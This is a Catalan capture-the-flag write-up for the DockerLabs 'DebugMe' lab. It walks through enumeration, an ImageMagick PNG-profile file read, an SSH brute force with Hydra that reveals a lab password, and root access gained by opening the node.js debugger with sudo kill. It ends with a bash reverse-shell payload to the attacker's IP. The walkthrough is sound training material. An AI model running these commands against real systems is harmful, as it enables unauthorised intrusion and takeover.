 ```yaml
---
author: Lenam
pubDatetime: 2024-07-22T15:22:00Z
title: WriteUp DebugMe - Dockerlabs
slug: debugme-writeup-dockerlabs-ca
featured: false
draft: false
ogImage: "../../../assets/images/debugme/OpenGraph.png"
tags:
  - writeup
  - dockerlabs
  - LFI
  - nodejs
description:
  Aquest desafiament de ciberseguretat guia els participants a través d'una intrusió en un servidor. El procés implica l'enumeració de serveis, l'explotació d'una vulnerabilitat de LFI, l'accés a SSH mitjançant força bruta i l'escalada de privilegis a través d'un procés de node.js.
lang: ca
---
```


Aquest desafiament de ciberseguretat, disponible a <a target="_blank" href="https://dockerlabs.es">DockerLabs</a> (El Pingüino de Mario), guia els participants a través d'una intrusió en un servidor. El procés implica l'enumeració de serveis, l'explotació d'una vulnerabilitat de LFI, l'accés a SSH mitjançant força bruta i l'escalada de privilegis a través d'un procés de node.js per aconseguir accés root.

## Taula de continguts

## Enumeració

```bash
nmap -p- 172.17.0.2 -n -P
```

![nmap all ports](../../../assets/images/debugme/image-1.png)

```bash
nmap -p22,80,443 -sVC -n -Pn 172.17.0.2
```

![nmap ports 22, 80 and 443](../../../assets/images/debugme/image.png)

Visitem el lloc web als ports 80 i 443, i apareix la mateixa pàgina. Sembla ser una eina on podem seleccionar una imatge i les diferents versions de mida que volem per a la imatge.

![Resize image](../../../assets/images/debugme/image-2.png)

En enviar el formulari amb una imatge i diferents versions, les mostra en una pàgina.

![Result](../../../assets/images/debugme/image-3.png)

Fem una mica de fuzzing al servei web utilitzant gobuster.

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://172.17.0.2/ -x py,php,txt,db,htm,html,back -t 50 -k
```

Trobem el clàssic info.php, amb informació de PHP.

![gobuster](../../../assets/images/debugme/image-4.png)

A `/info.php`, trobem un munt d'extensions PHP instal·lades i una versió de PHP una mica desactualitzada `PHP Version 7.2.24-0ubuntu0.18.04.3`.

També veiem que els mòduls `GD` i `Image Magick` estan instal·lats, cosa que pot ser utilitzada per al servei de transformació d'imatges.

## Intrusió

És probable que existeixin diferents maneres de realitzar la intrusió; en aquest cas, optem per una possible LFI (crec que això seria LFI, però no n'estic segur) que ocorre durant la transformació d'ImageMagick.

Més informació a:

- https://imagetragick.com/
- https://www.hackplayers.com/2023/02/imagemagick-la-vulnerabilidad-oculta.html

### LFI

Seguint les instruccions de hackplayers, instal·lem les dependències necessàries:

```bash
sudo apt install pngcrush imagemagick exiftool exiv2 -y
```

Utilitzem un PNG i afegim el camp de perfil amb la ruta que volem injectar. Això crearà l'arxiu pngout.png.

![pngcrush](../../../assets/images/debugme/image-5.png)

Verifiquem que s'hagi afegit correctament.

```bash
exiv2 -pS pngout.png
```

![alt text](../../../assets/images/debugme/image-6.png)

Ara fem servir la imatge pngout.png al servei web, seleccionem una mida i fem clic a "Resize".

![Resize payload](../../../assets/images/debugme/image-7.png)

Apareixen les dues imatges, fem clic dret en una i la descarreguem al nostre Kali, anomenant-la resultat.png.

![alt text](../../../assets/images/debugme/image-8.png)

Verifiquem si les dades s'han filtrat en el perfil.

```bash
identify -verbose resultat.png
```

![alt text](../../../assets/images/debugme/image-9.png)

Sembla que les dades s'han filtrat correctament. Copiem tots els bytes hexadecimals del perfil i els posem en una sola línia. Després, els incloem en el següent Python:

```bash
python3 -c 'print(bytes.fromhex("BYTES_IN_HEX").decode("utf-8"))'
```

I el resultat:

![alt text](../../../assets/images/debugme/image-10.png)

Genial, ara tenim un LFI, i podem veure que hi ha un usuari anomenat `lenam` i un altre anomenat `application`.

### Força Bruta SSH

Si intentem buscar altres arxius interessants, no trobem res. Intentem un atac de força bruta amb l'usuari `lenam` utilitzant Hydra.

```bash
hydra 172.17.0.2 ssh -t 64 -l lenam -P /usr/share/wordlists/rockyou.txt -f -vV
```

Amb una mica de paciència, trobem la contrasenya SSH per a l'usuari lenam.

![lenam ssh password](../../../assets/images/debugme/image-11.png)

## Escalada de Privilegis

Accedim via SSH utilitzant l'usuari `lenam` i la contrasenya `loverboy`.

![alt text](../../../assets/images/debugme/image-12.png)

Veiem que podem executar la comanda `/bin/kill` com a root amb la contrasenya de lenam.

També observem els processos que està executant root i veiem que s'està executant un procés de node.js.

```bash
ps aux | grep root
```

![processes](../../../assets/images/debugme/image-13.png)

Verifiquem si hi ha ports locals oberts i trobem els ports 8000 i 9000.

```bash
netstat -ano | grep LISTEN
```

![ports](../../../assets/images/debugme/image-14.png)

El port 8000 sembla ser una aplicació node.js.

```bash
curl 127.0.0.1:8000
```

![alt text](../../../assets/images/debugme/image-15.png)

Com que podem matar qualsevol procés, intentem obrir el depurador de node.js enviant un senyal `SIGUSR1` al procés de node.js. Això hauria de reiniciar l'aplicació node.js amb el port de depuració obert (per defecte, el port 9229) i accessible a través de websockets.

Més informació:

- https://nodejs.org/en/learn/getting-started/debugging
- https://book.hacktricks.xyz/linux-hardening/privilege-escalation/electron-cef-chromium-debugger-abuse#starting-inspector-in-running-processes

Per obtenir el PID del procés de node.js:

```bash
ps aux | grep node | grep root | awk '{print $2}'
```

La comanda completa:

```bash
sudo /bin/kill -s SIGUSR1 $(ps aux | grep node | grep root | awk '{print $2}')
```

Verifiquem si el port de depuració i inspecció 9229 ara està obert.

![port 9229](../../../assets/images/debugme/image-16.png)

Bingo! Ha funcionat. Ara entrem a l'aplicació node.js amb l'inspector.

```bash
node inspect 127.0.0.1:9229
```

![nodejs inspect](../../../assets/images/debugme/image-17.png)

Escoltem amb netcat.

```bash
nc -lvnp 5000
```

I executem la següent càrrega útil a la consola de depuració, reemplaçant la IP 10.0.2.15 per la teva.

```javascript
exec("process.mainModule.require('child_process').exec('bash -c \"/bin/bash -i >& /dev/tcp/10.0.2.15/5000 0>&1\"')")
```

![alt text](../../../assets/images/debugme/image-18.png)

Felicitats, ara som root.